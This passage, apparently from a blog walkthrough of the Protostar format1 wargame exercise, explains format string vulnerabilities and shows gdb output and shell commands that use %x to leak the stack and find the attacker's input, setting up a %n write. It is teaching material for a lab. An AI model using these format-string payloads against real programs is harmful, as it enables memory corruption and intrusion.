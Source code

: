 Like before, we want to overwrite `target`. However, this time `target`'s
location on the stack is very far away from our current location on the stack.

```shell
(gdb) info reg
eax            0x0      0
ecx            0x87cb0d94       -2016735852
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff760       0xbffff760
ebp            0xbffff778       0xbffff778
esi            0x0      0
edi            0x0      0
eip            0x80483fa        0x80483fa <vuln+6>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) print &target
$1 = (int *) 0x8049638
```

With format string vulnerabilities, you are able to directly write into an
arbitrary memory address. The `%n` format parameter writes the number of bytes
written so far by the format string function into a memory address referenced
by a pointer. The pointer, like all other parameters, is passed through the
stack. Since our input to the `printf()` function is stored on the stack (as it
is passed through `argv`), we have all the neccessary components to exploit
this.

The first hurdle to exploitation is that the `printf()` is not in the same
stack frame as the input string. This usually means that the input string is
very far away from our current stack pointer. We first need to locate where the
start of our input string is.

Conveniently, format string vulnerabiltiies provide us with a very easy way to
read the stack. Each `%x` prints out the next 4 bytes on the stack and moves
the stack pointer forward by the same amount. The fact that format string
vulnerabilities provide both a read _and_ write primitive is why they are
so powerful.

```shell
user@protostar:/opt/protostar/bin$ /opt/protostar/bin/format1 $(python -c "print 'AAAA' + '%x.%x'")
AAAA804960c.bffff788
```

We want to increment this until we locate the start of our input string
(`0x41414141`) on the stack. This is known as "stack popping".

```shell
user@protostar:/opt/protostar/bin$ /opt/protostar/bin/format1 $(python -c "print 'AAAA' + '%x.'*134 + '%x'")
AAAA804960c.bffff5f8.8048469.b7fd8304.b7fd7ff4.bffff5f8.8048435.bffff7dc.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff678.b7eadc76.2.bffff6a4.bffff6b0.b7fe1848.bffff660.ffffffff.b7ffeff4.804824d.1.bffff660.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff678.230a9a2b.95eec3b.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6a4.8048450.8048440.b7ff1040.bffff69c.b7fff8f8.2.bffff7c1.bffff7dc.0.bffff975.bffff983.bffff98f.bffff9b0.bffff9c3.bffff9d6.bffff9e0.bffffed0.bfffff0e.bfffff22.bfffff39.bfffff4a.bfffff52.bfffff62.bfffff6f.bfffffa3.bfffffb2.bfffffcf.0.20.b7fe2414.21.b7fe2000.10.fabfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7ab.1f.bfffffe1.f.bffff7bb.0.0.0.0.0.77000000.4d5d1483.52aa6e73.a62e2707.69255758.363836.706f2f00.72702f74.736f746f.2f726174.2f6e6962.6d726f66.317461.41414141
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/